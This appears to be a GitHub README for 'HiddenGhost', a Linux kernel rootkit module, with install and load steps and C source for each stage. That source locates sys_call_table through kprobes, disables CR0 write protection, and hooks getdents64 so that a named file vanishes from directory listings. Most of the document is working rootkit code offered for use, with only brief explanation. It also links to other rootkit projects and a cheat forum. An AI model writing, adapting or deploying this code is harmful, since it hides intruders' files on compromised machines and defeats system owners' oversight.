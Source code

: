 == HiddenGhost
 
Hidden Ghost *is an new solution for find system call table with support for 5.7x kernels +*. Hidden Ghost finds the syscall table via the ```kallsyms_lookup_name``` module with the ```<linux/kprobes.h>``` headder.

Before starting the explanation of how the rootkit works in depth I will explain the basics.

** Tested On:

[✔️] Debian 12 6.7X amd64

** Usage: 

```
1) install the kernel headers:

sudo apt install linux-headers-$(uname -r)

2) Install Development Tools:

sudo apt install build-essential

3) Install the Kernel Development Kit:

sudo apt install linux-headers-$(uname -r) linux-source

4) Go to the /src directory:

cd src

5) Module Compilation:

make

6) Load the module:

sudo insmod main.ko

7) Check if the module has been loaded:

dmesg | tail -n 10

```

After these steps are completed, you should see this message:

image::img/HiddenGhost.png[]

** What is Hooking:

Hooking is the act of redirecting/modifying a certain code stream, this redirect technique can be used for good and for bad, a big example of using this technique is mid function hooking This time I saw an example midFunction hook in the Unknown cheats forum that created a function ```jmp 0xE9``` at address ```pAddres``` I won't take much of your time explaining how it works and such because there are articles about it, I left two articles at the end of this readme, mine where I explain in depth about lkm and the one about MidFunction hook.

** And how does it hook the syscall?

* 1) Find the Syscalls Table:

- The ``find_syscall_table`` function uses the kprobes module to find the address of the kernel syscall table (sys_call_table).

```c
unsigned long *find_syscall_table(void)
{
    typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
    kallsyms_lookup_name_t kallsyms_lookup_name;

    register_kprobe(&kp);
    kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
    unregister_kprobe(&kp);

    __syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
    return __syscall_table;
}
```

* 2) Unprotect Memory

- The ``unprotect_memory`` function disables write protection on the page containing the syscall table, allowing the rootkit to modify the syscall table.

```c
static inline void unprotect_memory(void)
{
    write_cr0_forced(cr0 & ~0x00010000);
}
```

* 3) Replace the Original Function

- In ghost_init, the address of the original getdents64 syscall is saved and replaced with the address of the hook function (hook_getdents64).

```c
static int __init ghost_init(void)
{
    __syscall_table = find_syscall_table();
    if (!__syscall_table) {
        printk(KERN_INFO "Error, syscall_table not found");
        return -1;
    }

    cr0 = read_cr0();
    orig_getdents64 = (void *)__syscall_table[MY_NR_getdents];
    unprotect_memory();
    __syscall_table[MY_NR_getdents] = (unsigned long)hook_getdents64;
    protect_memory();

    printk(KERN_INFO "Rootkit loaded: Syscall hooked\n");
    return 0;
}
```

* 4) Protect Memory

After replacement, write protection is restored.

```c
static inline void protect_memory(void)
{
    write_cr0_forced(cr0);
}
```

* 5) Interception and Manipulation

- The hook function hook_getdents64 intercepts calls to getdents64, checks file names, and hides any file named file_to_hide. 

```c
asmlinkage int hook_getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count) {
    int ret = orig_getdents64(fd, dirp, count);
    struct linux_dirent64 *d, *kd, *kdirent = NULL;
    unsigned long offset = 0;

    if (ret <= 0)
        return ret;

    kdirent = kzalloc(ret, GFP_KERNEL);
    if (kdirent == NULL)
        return ret;

    if (copy_from_user(kdirent, dirp, ret)) {
        kfree(kdirent);
        return ret;
    }

    while (offset < ret) {
        d = (struct linux_dirent64 *)((char *)kdirent + offset);
        if (strcmp(d->d_name, "file_to_hide") == 0) {
            memmove(d, (char *)d + d->d_reclen, ret - offset - d->d_reclen);
            ret -= d->d_reclen;
        } else {
            offset += d->d_reclen;
        }
    }

    copy_to_user(dirp, kdirent, ret);
    kfree(kdirent);
    return ret;
}
```

* 6) Unloading and Restoring

- When unloading the module, the original syscall is restored:

```c
static void __exit ghost_exit(void)
{
    unprotect_memory();
    __syscall_table[MY_NR_getdents] = (unsigned long)orig_getdents64;
    protect_memory();

    printk(KERN_INFO "Rootkit unloaded: Syscall restored\n");
}
```

link of articles: 

https://github.com/Ch4r0nN/LKM-Exploration[LKM-Exploration Making drivers from basic to advanced]


https://www.unknowncheats.me/forum/c-and-c-/67884-mid-function-hook-deal.html[Unknown Cheats]

Links to the repositories I based on:

https://github.com/m0nad/Diamorphine[Diamorphine]

https://github.com/xcellerator/linux_kernel_hacking[Linux Kernel Hacking]
